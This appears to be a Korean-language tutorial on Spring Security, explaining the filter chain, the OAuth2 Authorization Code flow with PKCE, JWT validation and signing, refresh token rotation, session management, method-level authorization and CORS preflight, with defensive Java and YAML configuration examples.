






> **한 줄 요약:** Spring Security는 서블릿 필터 체인 위에 구축된 보안 프레임워크다. 인증(Authentication)과 인가(Authorization)를 필터 파이프라인으로 처리하며, OAuth2 Authorization Code, JWT, 메서드 보안, 세션 관리, 취약점 방어까지 전방위 보안을 선언적으로 구성한다.

---

## 1. 비유 — 국제공항 보안 시스템

> **비유:** 국제공항에서 비행기를 타려면 몇 단계를 거친다.
> 1. 공항 입구(DelegatingFilterProxy): Tomcat이 관리. 실제 검사는 Spring 세계로 위임
> 2. 보안 검색대(FilterChainProxy): 어떤 보안 체인을 적용할지 라우팅
> 3. 여권 심사대(AuthenticationFilter): 신분증(토큰/비밀번호) 확인
> 4. 입국 심사관(AuthenticationProvider): 실제 신원 검증 로직 수행
> 5. 국가 데이터베이스(UserDetailsService): 입국자 등록 여부 조회
> 6. 탑승구 직원(AuthorizationFilter): 해당 게이트(리소스) 진입 권한 확인
>
> OAuth2는 이 위에 "다른 나라 여권으로 입국하는 절차"가 추가되는 것이다. 카카오(외국 여권 발급기관)가 "이 사람 인증됨"을 보증하면, 우리 공항은 그 보증을 믿고 입국을 허가한다.

---

## 2. Spring Security 아키텍처 — 요청이 거치는 전체 경로

### 2.1 DelegatingFilterProxy가 왜 존재하는가

Tomcat(서블릿 컨테이너)은 Filter를 자신이 직접 관리한다. 반면 Spring Security의 필터들은 Spring ApplicationContext 안에서 빈으로 살아있다. 두 생명주기가 다르기 때문에 다리가 필요하다.

`DelegatingFilterProxy`는 Tomcat 입장에서는 평범한 서블릿 필터지만, 실제 로직은 Spring 빈인 `FilterChainProxy`에게 위임한다. 이 덕분에 Spring의 DI, AOP, 트랜잭션 등이 보안 필터에서도 정상 동작한다.



### 2.2 SecurityFilterChain 내부 필터 순서

필터 순서는 `FilterOrderRegistration`이 관리한다. 순서가 중요한 이유는 앞 필터가 `SecurityContext`를 세팅해야 뒷 필터가 인증 정보를 읽을 수 있기 때문이다.

주요 필터 실행 순서:

1. `SecurityContextHolderFilter` — ThreadLocal SecurityContext 초기화
2. `LogoutFilter` — 로그아웃 URL 처리
3. `UsernamePasswordAuthenticationFilter` — 폼 로그인 처리
4. `BearerTokenAuthenticationFilter` — OAuth2 Resource Server JWT 처리
5. `AnonymousAuthenticationFilter` — 미인증 요청에 익명 Authentication 부여
6. `ExceptionTranslationFilter` — AuthenticationException/AccessDeniedException을 HTTP 응답으로 변환
7. `AuthorizationFilter` — 최종 인가 결정

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain apiChain(HttpSecurity http,
                                        JwtAuthenticationFilter jwtFilter) throws Exception {
        http
            .securityMatcher("/api/**")
            .sessionManagement(s -> s
                .sessionCreationPolicy(SessionCreationPolicy.STATELESS)
            )
            .csrf(csrf -> csrf.disable())
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/public/**").permitAll()
                .requestMatchers("/api/admin/**").hasRole("ADMIN")
                .requestMatchers(HttpMethod.GET, "/api/products/**").hasAnyRole("USER", "ADMIN")
                .anyRequest().authenticated()
            )
            // jwtFilter를 UsernamePasswordAuthenticationFilter 앞에 삽입
            // 이유: JWT 검증으로 SecurityContext가 세팅되어야 AuthorizationFilter가 읽을 수 있음
            .addFilterBefore(jwtFilter, UsernamePasswordAuthenticationFilter.class)
            .exceptionHandling(ex -> ex
                .authenticationEntryPoint(new HttpStatusEntryPoint(HttpStatus.UNAUTHORIZED))
                .accessDeniedHandler((req, res, e) -> {
                    res.setStatus(HttpStatus.FORBIDDEN.value());
                    res.setContentType(MediaType.APPLICATION_JSON_VALUE);
                    res.getWriter().write("{\"error\":\"접근 권한이 없습니다\"}");
                })
            );
        return http.build();
    }
}
```

**`authorizeHttpRequests` 순서가 왜 중요한가:** Spring Security 6.x의 `AuthorizationFilter`는 규칙을 위에서 아래로 순서대로 평가하고 처음 매칭되는 규칙을 적용한다. `.anyRequest().authenticated()`를 먼저 쓰면 그 아래 `.requestMatchers("/api/public/**").permitAll()`은 영원히 도달하지 못한다.

---

## 3. OAuth2 Authorization Code Flow — 단계별 WHY

### 3.1 전체 흐름도



### 3.2 각 단계의 WHY

**단계 1-2: 왜 직접 로그인 폼을 우리 서버에 두지 않는가?**

카카오 비밀번호는 카카오만 알아야 한다. 우리 서버가 직접 카카오 비밀번호를 받으면 피싱 경로가 된다. Authorization Server로 리다이렉트하면 사용자는 카카오 도메인에서 카카오 폼으로 로그인한다. 우리 서버는 비밀번호를 볼 수 없다.

**단계 2에서 `state` 파라미터가 CSRF를 막는 원리:**

리다이렉트 URL에 `state=랜덤값`을 포함시키고, 세션에도 저장한다. Authorization Server가 콜백 URL로 돌아올 때 같은 `state`를 보내준다. 서버가 세션의 `state`와 콜백의 `state`를 비교한다. 공격자가 임의로 콜백을 유발해도 `state`가 맞지 않아 요청이 거부된다.

```java
// Spring Security가 자동으로 처리하지만, 내부 동작 이해를 위한 수동 구현 예시
@GetMapping("/oauth2/authorize/kakao")
public void authorize(HttpSession session, HttpServletResponse response) throws IOException {
    String state = generateSecureRandom(); // UUID 또는 SecureRandom
    session.setAttribute("oauth2_state", state);

    String redirectUrl = UriComponentsBuilder
        .fromUriString("https://kauth.kakao.com/oauth/authorize")
        .queryParam("response_type", "code")
        .queryParam("client_id", clientId)
        .queryParam("redirect_uri", redirectUri)
        .queryParam("state", state) // CSRF 방지
        .build().toUriString();

    response.sendRedirect(redirectUrl);
}

@GetMapping("/login/oauth2/code/kakao")
public ResponseEntity<?> callback(
        @RequestParam String code,
        @RequestParam String state,
        HttpSession session) {

    // state 검증 — 없으면 CSRF 공격 가능성
    String savedState = (String) session.getAttribute("oauth2_state");
    if (!state.equals(savedState)) {
        throw new OAuth2AuthenticationException("state 불일치 — CSRF 공격 의심");
    }
    session.removeAttribute("oauth2_state");

    // code는 단 한 번만 사용 가능, 유효 시간 수 분 이내
    // 서버 간 백채널로 토큰 교환 → 토큰이 URL에 노출되지 않음
    TokenResponse tokenResponse = exchangeCodeForToken(code);
    // ...
}
```

**단계 3-4: Authorization Code가 URL에 노출되는데 왜 안전한가?**

Authorization Code는 수 분(보통 5분) 내 만료되는 일회용 코드다. 코드만으로는 아무것도 할 수 없고, `client_secret`과 함께 토큰 엔드포인트에 제출해야만 Access Token을 얻을 수 있다. 브라우저 히스토리에 코드가 남아도, 공격자가 `client_secret` 없이는 코드를 교환할 수 없다.

**단계 5-6: 왜 서버에서 서버로(백채널) 토큰을 교환하는가?**

이 단계에서 `client_secret`이 포함된다. `client_secret`은 브라우저에 노출되면 안 된다. 서버 간 HTTPS 통신으로 교환하기 때문에 Access Token과 `client_secret` 모두 외부에 노출되지 않는다.

### 3.3 PKCE — Public Client를 위한 code_verifier 메커니즘

모바일 앱과 SPA(Single Page Application)는 `client_secret`을 안전하게 보관할 수 없다. 앱 번들을 디컴파일하거나 소스코드를 보면 `client_secret`이 노출된다. PKCE(Proof Key for Code Exchange)는 이 문제를 `client_secret` 없이 해결한다.

```java
// PKCE 동작 원리 (Spring Security가 자동 처리하지만 이해용 구현)
public class PkceHelper {

    public static String generateCodeVerifier() {
        // 43~128자 랜덤 문자열 — 클라이언트만 알고 있음
        byte[] bytes = new byte[32];
        new SecureRandom().nextBytes(bytes);
        return Base64.getUrlEncoder().withoutPadding().encodeToString(bytes);
    }

    public static String generateCodeChallenge(String verifier) throws NoSuchAlgorithmException {
        // S256 방식: SHA-256(verifier)를 Base64url 인코딩
        // plain 방식은 verifier를 그대로 보내지만 보안상 S256 권장
        MessageDigest digest = MessageDigest.getInstance("SHA-256");
        byte[] hash = digest.digest(verifier.getBytes(StandardCharsets.US_ASCII));
        return Base64.getUrlEncoder().withoutPadding().encodeToString(hash);
    }
}

// 인가 요청 시: code_challenge만 Authorization Server에 전달
// 코드 교환 시: code_verifier를 함께 전달 → AS가 SHA-256(verifier) == challenge 검증
// 공격자가 code를 가로채도 verifier가 없으면 토큰 교환 불가
```

PKCE가 Authorization Code Injection 공격을 막는 원리: 공격자가 다른 사용자의 Authorization Code를 탈취해 자신의 클라이언트에 삽입하려 해도, 그 code에 대응하는 `code_verifier`를 모른다. verifier는 최초 인가 요청을 시작한 클라이언트만 알기 때문이다.

### 3.4 Spring Security OAuth2 Client 설정

```yaml
spring:
  security:
    oauth2:
      client:
        registration:
          kakao:
            client-id: ${KAKAO_CLIENT_ID}
            client-secret: ${KAKAO_CLIENT_SECRET}
            authorization-grant-type: authorization_code
            redirect-uri: "{baseUrl}/login/oauth2/code/{registrationId}"
            scope: profile_nickname, account_email
          google:
            client-id: ${GOOGLE_CLIENT_ID}
            client-secret: ${GOOGLE_CLIENT_SECRET}
            scope: openid, profile, email
        provider:
          kakao:
            authorization-uri: https://kauth.kakao.com/oauth/authorize
            token-uri: https://kauth.kakao.com/oauth/token
            user-info-uri: https://kapi.kakao.com/v2/user/me
            user-name-attribute: id
```

```java
@Service
@RequiredArgsConstructor
public class CustomOAuth2UserService extends DefaultOAuth2UserService {

    private final MemberRepository memberRepository;

    @Override
    public OAuth2User loadUser(OAuth2UserRequest userRequest) throws OAuth2AuthenticationException {
        OAuth2User oAuth2User = super.loadUser(userRequest);

        String registrationId = userRequest.getClientRegistration().getRegistrationId();
        // 카카오와 구글의 응답 JSON 구조가 다름 — Factory 패턴으로 통일
        OAuth2UserInfo userInfo = OAuth2UserInfoFactory
            .getOAuth2UserInfo(registrationId, oAuth2User.getAttributes());

        // 이미 가입된 경우 업데이트, 신규이면 저장
        Member member = memberRepository.findByProviderAndProviderId(
                userInfo.getProvider(), userInfo.getProviderId())
            .map(existing -> existing.updateProfile(userInfo.getName(), userInfo.getImageUrl()))
            .orElseGet(() -> Member.ofOAuth2(userInfo));

        memberRepository.save(member);

        return new DefaultOAuth2User(
            Collections.singleton(new SimpleGrantedAuthority("ROLE_USER")),
            oAuth2User.getAttributes(),
            userRequest.getClientRegistration()
                .getProviderDetails().getUserInfoEndpoint().getUserNameAttributeName()
        );
    }
}
```

---

## 4. OAuth2 Resource Server — JWT 검증 내부 메커니즘

### 4.1 Resource Server가 하는 일

Authorization Server가 발급한 JWT를 받아, 그 JWT가 유효한지 검증하고 클레임을 추출해 인가에 사용한다. Resource Server는 자신이 토큰을 발급하지 않는다. 검증만 한다.



### 4.2 JWK Set 캐싱 — 왜 공개키를 캐시하는가

Resource Server가 JWT를 검증할 때마다 Authorization Server의 JWK Set URI에 HTTP 요청을 보내면, Authorization Server가 병목이 된다. 또한 Authorization Server가 잠시 다운되면 모든 API가 인증 불가 상태가 된다. 따라서 공개키를 로컬에 캐싱한다.

키 로테이션 문제: Authorization Server가 새 키 쌍을 발급하면 JWK Set이 변경된다. JWT의 `kid`(Key ID) 헤더로 어떤 키로 서명됐는지 알 수 있다. 캐시에 해당 `kid`가 없으면 JWK Set을 다시 조회한다.

```java
@Configuration
public class ResourceServerConfig {

    @Bean
    public SecurityFilterChain resourceServerChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/api/**")
            .oauth2ResourceServer(oauth2 -> oauth2
                .jwt(jwt -> jwt
                    .jwkSetUri("https://auth.myapp.com/.well-known/jwks.json")
                    // JwtDecoder가 내부적으로 NimbusJwtDecoder를 사용
                    // NimbusJwtDecoder는 JWK Set을 캐시해 매 요청마다 네트워크 호출 방지
                )
            )
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/public/**").permitAll()
                .anyRequest().authenticated()
            );
        return http.build();
    }

    @Bean
    public JwtDecoder jwtDecoder() {
        // 캐시 TTL, 크기 등을 직접 제어하고 싶을 때
        NimbusJwtDecoder decoder = NimbusJwtDecoder
            .withJwkSetUri("https://auth.myapp.com/.well-known/jwks.json")
            .cache(Caffeine.newBuilder()
                .maximumSize(100)
                .expireAfterWrite(Duration.ofMinutes(30))
                .build())
            .build();
        return decoder;
    }
}
```

### 4.3 audience/issuer/scope 클레임 검증

JWT를 서명 검증만 하면 충분하지 않다. 다른 서비스가 같은 Authorization Server에서 발급한 JWT를 우리 API에 재사용할 수 있기 때문이다.

- **issuer(iss):** 이 토큰을 발급한 주체가 우리가 신뢰하는 Authorization Server인지 확인
- **audience(aud):** 이 토큰이 우리 Resource Server를 대상으로 발급됐는지 확인. `aud`에 우리 서버 식별자가 없으면 거부
- **scope:** 이 토큰으로 요청할 수 있는 권한 범위 확인

```java
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
        .withJwkSetUri("https://auth.myapp.com/.well-known/jwks.json")
        .build();

    // 기본 검증(만료, 발급시간)에 더해 커스텀 검증 추가
    OAuth2TokenValidator<Jwt> issuerValidator =
        JwtValidators.createDefaultWithIssuer("https://auth.myapp.com");

    OAuth2TokenValidator<Jwt> audienceValidator = jwt -> {
        List<String> audiences = jwt.getAudience();
        if (audiences.contains("my-resource-server")) {
            return OAuth2TokenValidatorResult.success();
        }
        return OAuth2TokenValidatorResult.failure(
            new OAuth2Error("invalid_token", "audience 불일치", null)
        );
    };

    // 두 검증자를 AND 조건으로 결합
    OAuth2TokenValidator<Jwt> combined =
        new DelegatingOAuth2TokenValidator<>(issuerValidator, audienceValidator);
    decoder.setJwtValidator(combined);

    return decoder;
}

// 스코프 기반 인가: SCOPE_ 접두사로 GrantedAuthority가 생성됨
// JWT의 "scope": "read:orders write:orders" → SCOPE_read:orders, SCOPE_write:orders
@GetMapping("/api/orders")
@PreAuthorize("hasAuthority('SCOPE_read:orders')")
public List<Order> getOrders() { ... }
```

---

## 5. JWT 내부 구조 — 왜 이 설계인가

### 5.1 header.payload.signature 구조

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImtleS0xIn0   ← Header
.eyJzdWIiOiJ1c2VyMTIzIiwiaXNzIjoiYXV0aC5teWFwcC5jb20iLCJhdWQiOlsibXktcmVzb3VyY2Utc2VydmVyIl0sImV4cCI6MTcxNTAwMDAwMCwiaWF0IjoxNzE0OTk2NDAwLCJzY29wZSI6InJlYWQ6b3JkZXJzIn0   ← Payload
.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c   ← Signature
```

각 파트는 Base64url 인코딩이다. **암호화가 아니다.** 누구나 디코딩해 내용을 읽을 수 있다. Signature의 역할은 위변조 감지다. Payload를 수정하면 Signature 검증에서 즉시 실패한다.

Header 예시:
```json
{
  "alg": "RS256",
  "typ": "JWT",
  "kid": "key-1"
}
```

Payload 예시:
```json
{
  "sub": "user123",
  "iss": "https://auth.myapp.com",
  "aud": ["my-resource-server"],
  "exp": 1715000000,
  "iat": 1714996400,
  "scope": "read:orders write:orders",
  "roles": ["ROLE_USER"]
}
```

### 5.2 RS256 vs HS256 — 분산 시스템에서 RS256을 써야 하는 이유



**HS256 (HMAC-SHA256):**
- 서명과 검증에 동일한 비밀키 사용
- Resource Server가 검증하려면 비밀키를 알아야 한다
- 비밀키를 여러 서버에 배포해야 한다 → 비밀키 유출 경로가 늘어난다
- 하나의 Resource Server가 침해당하면 비밀키로 임의의 JWT를 위조할 수 있다

**RS256 (RSA-SHA256):**
- 개인키(private key)로 서명, 공개키(public key)로 검증
- 개인키는 Authorization Server 한 곳에만 있다
- Resource Server는 공개키만 있으면 검증 가능 — 공개키가 유출돼도 위조 불가
- 마이크로서비스에서 각 서비스가 Auth Server에 의존하지 않고 독립적으로 검증

```java
// RS256 키 쌍 생성 및 사용
@Bean
public JwtEncoder jwtEncoder(RSAKey rsaKey) throws JOSEException {
    // 개인키는 Authorization Server만 보유
    JWKSet jwkSet = new JWKSet(rsaKey);
    JWKSource<SecurityContext> jwkSource = new ImmutableJWKSet<>(jwkSet);
    return new NimbusJwtEncoder(jwkSource);
}

@Bean
public JwtDecoder jwtDecoder(RSAKey rsaKey) throws JOSEException {
    // 공개키만 있으면 검증 가능
    return NimbusJwtDecoder.withPublicKey(rsaKey.toRSAPublicKey()).build();
}

// Authorization Server에서 JWT 발급
@Service
@RequiredArgsConstructor
public class TokenService {

    private final JwtEncoder jwtEncoder;

    public String issueAccessToken(String userId, List<String> roles) {
        Instant now = Instant.now();

        JwtClaimsSet claims = JwtClaimsSet.builder()
            .issuer("https://auth.myapp.com")
            .audience(List.of("my-resource-server"))
            .subject(userId)
            .issuedAt(now)
            .expiresAt(now.plus(15, ChronoUnit.MINUTES)) // 짧은 유효 기간
            .claim("roles", roles)
            .claim("scope", "read:orders write:orders")
            .build();

        JwsHeader header = JwsHeader.with(SignatureAlgorithm.RS256)
            .keyId("key-1") // kid: JWK Set에서 키 찾을 때 사용
            .build();

        return jwtEncoder.encode(JwtEncoderParameters.from(header, claims)).getTokenValue();
    }
}
```

---

## 6. Refresh Token — 순환 패턴과 토큰 탈취 감지

### 6.1 왜 Access Token을 짧게, Refresh Token을 길게 유지하는가

Access Token은 매 API 요청에 사용된다. 네트워크 전송 중 탈취될 위험이 상대적으로 높다. 탈취된 경우 만료될 때까지 공격자가 사용할 수 있으므로 유효 기간을 짧게(15분) 유지해 피해를 최소화한다.

Refresh Token은 Access Token이 만료됐을 때만 사용한다. 사용 빈도가 낮아 탈취 위험이 낮다. 사용자 경험을 위해 길게(7~30일) 유지한다.

이 둘을 분리함으로써 "보안"과 "편의성" 사이의 균형을 맞춘다.

### 6.2 RTR (Refresh Token Rotation) — 탈취 감지 메커니즘



RTR의 핵심: Refresh Token을 한 번 사용하면 새것으로 교체하고, 이전 것을 무효화한다. 공격자가 탈취한 Refresh Token으로 갱신을 시도하면, 이미 무효화된 토큰으로 서버가 거부한다. 정상 사용자의 이후 갱신 요청도 실패하게 되어 사용자가 재로그인을 하게 된다.

**Token Family — 더 강력한 탈취 감지:**

Token Family는 최초 로그인부터 시작된 Refresh Token 계보를 추적한다. 이미 사용(회전)된 Refresh Token으로 갱신 요청이 오면, 해당 Family 전체를 무효화한다. 공격자와 정상 사용자 중 누가 먼저 갱신했는지에 상관없이 계정을 보호한다.

```java
@Service
@RequiredArgsConstructor
@Transactional
public class TokenRotationService {

    private final RefreshTokenRepository refreshTokenRepository;
    private final TokenService tokenService;

    // 로그인 시 최초 발급
    public TokenPair issueInitialTokens(String userId) {
        String familyId = UUID.randomUUID().toString(); // 이 로그인 세션의 Family
        String refreshToken = UUID.randomUUID().toString();

        RefreshTokenEntity entity = RefreshTokenEntity.builder()
            .token(refreshToken)
            .userId(userId)
            .familyId(familyId)
            .used(false)
            .expiresAt(Instant.now().plus(7, ChronoUnit.DAYS))
            .build();
        refreshTokenRepository.save(entity);

        String accessToken = tokenService.issueAccessToken(userId, getRoles(userId));
        return new TokenPair(accessToken, refreshToken);
    }

    // 갱신 요청
    public TokenPair rotate(String submittedRefreshToken) {
        RefreshTokenEntity entity = refreshTokenRepository
            .findByToken(submittedRefreshToken)
            .orElseThrow(() -> new InvalidTokenException("존재하지 않는 토큰"));

        // 이미 사용된 토큰 재사용 → 토큰 탈취 감지
        if (entity.isUsed()) {
            // Family 전체 무효화 — 공격자와 정상 사용자 모두 재로그인 필요
            refreshTokenRepository.revokeAllByFamilyId(entity.getFamilyId());
            throw new TokenReusedException("토큰이 재사용됨 — 보안 이벤트 감지");
        }

        if (entity.getExpiresAt().isBefore(Instant.now())) {
            throw new TokenExpiredException("Refresh Token 만료");
        }

        // 이전 토큰 사용 처리
        entity.markAsUsed();
        refreshTokenRepository.save(entity);

        // 새 Refresh Token 발급 (같은 Family 유지)
        String newRefreshToken = UUID.randomUUID().toString();
        RefreshTokenEntity newEntity = RefreshTokenEntity.builder()
            .token(newRefreshToken)
            .userId(entity.getUserId())
            .familyId(entity.getFamilyId()) // Family 계승
            .used(false)
            .expiresAt(Instant.now().plus(7, ChronoUnit.DAYS))
            .build();
        refreshTokenRepository.save(newEntity);

        String newAccessToken = tokenService.issueAccessToken(
            entity.getUserId(), getRoles(entity.getUserId()));
        return new TokenPair(newAccessToken, newRefreshToken);
    }
}
```

---

## 7. 세션 관리 — SessionCreationPolicy 4가지 WHY

### 7.1 4가지 정책 비교

| 정책 | 세션 생성 | 세션 사용 | 적합한 상황 |
|------|---------|---------|-----------|
| `STATELESS` | 절대 생성 안 함 | 절대 사용 안 함 | JWT 기반 REST API |
| `IF_REQUIRED` | 필요할 때 생성 | 있으면 사용 | 기본값, 폼 로그인 앱 |
| `NEVER` | 생성 안 함 | 있으면 사용 | 기존 세션 사용하되 새로 생성 불필요 |
| `ALWAYS` | 항상 생성 | 항상 사용 | 세션이 반드시 필요한 레거시 앱 |

**STATELESS를 REST API에서 쓰는 이유:** 세션을 서버 메모리에 유지하면 수평 확장 시 세션 공유 문제가 생긴다. 서버 A에서 생긴 세션을 서버 B는 모른다. 이를 해결하려면 Redis 같은 공유 저장소가 필요하다. JWT는 토큰 자체에 정보가 담겨있어 어떤 서버에서든 검증만 하면 된다.

### 7.2 동시 세션 제어

```java
@Bean
public SecurityFilterChain webChain(HttpSecurity http) throws Exception {
    http
        .sessionManagement(session -> session
            .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
            // 한 사용자당 최대 1개 세션만 허용
            .maximumSessions(1)
            // true: 이미 로그인 상태면 새 로그인 차단
            // false: 새 로그인이 이전 세션을 만료시킴 (기본값)
            .maxSessionsPreventsLogin(false)
            .expiredUrl("/login?expired")
        )
        // 세션 고정 공격 방어
        // 로그인 성공 후 새 세션 ID 발급 → 공격자가 심어놓은 세션 ID 무효화
        .sessionManagement(session -> session
            .sessionFixation().changeSessionId()
        );
    return http.build();
}
```

**세션 고정(Session Fixation) 공격이란:** 공격자가 미리 세션 ID를 피해자에게 심어두고, 피해자가 로그인하면 그 세션 ID로 인증된 상태를 공유하는 공격이다. `changeSessionId()`는 로그인 성공 후 기존 세션 데이터를 유지하면서 세션 ID만 새로 발급해 이 공격을 막는다.

---

## 8. 메서드 보안 — @PreAuthorize 내부 동작과 커스텀 평가기

### 8.1 @PreAuthorize가 AOP 프록시를 통해 동작하는 원리

`@EnableMethodSecurity`를 선언하면 Spring이 `@PreAuthorize` 어노테이션이 붙은 빈을 프록시로 감싼다. 메서드 호출이 프록시를 통과하면서 SpEL 표현식을 평가하고, 실패하면 `AccessDeniedException`을 던진다.

**내부 호출 시 @PreAuthorize가 무시되는 이유:** 같은 클래스 내에서 `this.method()`로 호출하면 프록시를 통하지 않고 실제 객체의 메서드를 직접 호출한다. 프록시가 개입하지 않으므로 권한 체크가 실행되지 않는다. 이것은 `@Transactional`과 동일한 프록시 한계다.

```java
@Configuration
@EnableMethodSecurity(
    prePostEnabled = true,   // @PreAuthorize, @PostAuthorize, @PreFilter, @PostFilter
    securedEnabled = true,   // @Secured
    jsr250Enabled = true     // @RolesAllowed
)
public class MethodSecurityConfig {}
```

```java
@Service
public class OrderService {

    // 관리자이거나 자기 자신의 주문만 조회
    // authentication.principal은 SecurityContext의 Principal 객체
    // #memberId는 메서드 파라미터 name으로 SpEL에서 참조
    @PreAuthorize("hasRole('ADMIN') or #memberId == authentication.principal.id")
    public List<Order> getOrdersByMember(Long memberId) {
        return orderRepository.findByMemberId(memberId);
    }

    // DB 조회 후 반환 객체를 검증 — 반환 후 검사이므로 DB 쿼리는 실행됨
    // IDOR(Insecure Direct Object Reference) 방어에 유용
    @PostAuthorize("returnObject.memberId == authentication.principal.id or hasRole('ADMIN')")
    public Order getOrder(Long orderId) {
        return orderRepository.findById(orderId).orElseThrow();
    }

    // 컬렉션 파라미터 필터링 — 현재 사용자 소유 주문만 처리 허용
    @PreFilter("filterObject.memberId == authentication.principal.id")
    public void bulkUpdateOrders(List<Order> orders) {
        orderRepository.saveAll(orders);
    }

    // 반환 컬렉션 필터링 — 현재 사용자 소유 주문만 반환
    @PostFilter("filterObject.memberId == authentication.principal.id or hasRole('ADMIN')")
    public List<Order> getAllOrders() {
        return orderRepository.findAll();
    }
}
```

### 8.2 커스텀 PermissionEvaluator — 도메인 객체 레벨 권한 체크

```java
// hasPermission() SpEL 함수를 커스터마이징
@Component
public class OrderPermissionEvaluator implements PermissionEvaluator {

    private final OrderRepository orderRepository;

    // hasPermission(targetDomainObject, permission) 형태
    @Override
    public boolean hasPermission(Authentication authentication,
                                  Object targetDomainObject,
                                  Object permission) {
        if (targetDomainObject instanceof Order order) {
            CustomUserDetails user = (CustomUserDetails) authentication.getPrincipal();
            if ("READ".equals(permission)) {
                return order.getMemberId().equals(user.getId())
                    || hasRole(authentication, "ADMIN");
            }
        }
        return false;
    }

    // hasPermission(targetId, targetType, permission) 형태
    @Override
    public boolean hasPermission(Authentication authentication,
                                  Serializable targetId,
                                  String targetType,
                                  Object permission) {
        if ("Order".equals(targetType)) {
            Order order = orderRepository.findById((Long) targetId).orElseThrow();
            return hasPermission(authentication, order, permission);
        }
        return false;
    }

    private boolean hasRole(Authentication auth, String role) {
        return auth.getAuthorities().stream()
            .anyMatch(a -> a.getAuthority().equals("ROLE_" + role));
    }
}

// MethodSecurityExpressionHandler에 등록
@Bean
public MethodSecurityExpressionHandler methodSecurityExpressionHandler(
        OrderPermissionEvaluator evaluator) {
    DefaultMethodSecurityExpressionHandler handler =
        new DefaultMethodSecurityExpressionHandler();
    handler.setPermissionEvaluator(evaluator);
    return handler;
}

// 사용 예시
@PreAuthorize("hasPermission(#orderId, 'Order', 'READ')")
public Order getOrder(Long orderId) { ... }
```

---

## 9. CORS 심층 — Preflight 캐시와 Credentials 모드

### 9.1 Preflight 요청이란

브라우저는 CORS 요청 중 "단순 요청"이 아닌 경우 실제 요청 전에 `OPTIONS` 메서드로 사전 요청(Preflight)을 보낸다. 서버가 이 출처를 허용하는지 먼저 물어보는 것이다.

단순 요청 조건: GET/POST/HEAD + 단순 헤더 + `Content-Type`이 `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain` 중 하나. REST API에서 `Content-Type: application/json`을 쓰면 이미 Preflight가 발생한다.

```
OPTIONS /api/orders HTTP/1.1
Origin: https://app.myapp.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Content-Type, Authorization
```

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://app.myapp.com
Access-Control-Allow-Methods: POST, GET, PUT, DELETE
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Max-Age: 3600        ← 이 시간(초) 동안 Preflight 결과를 캐시
Access-Control-Allow-Credentials: true
```

`Access-Control-Max-Age: 3600`이 중요한 이유: 캐시가 없으면 API 요청마다 Preflight `OPTIONS` 요청이 먼저 발생해 네트워크 왕복 횟수가 2배가 된다. 3600이면 1시간 동안 캐시를 사용해 Preflight를 건너뜀.

### 9.2 왜 allowedOrigins("*")와 allowCredentials(true)를 함께 쓸 수 없는가

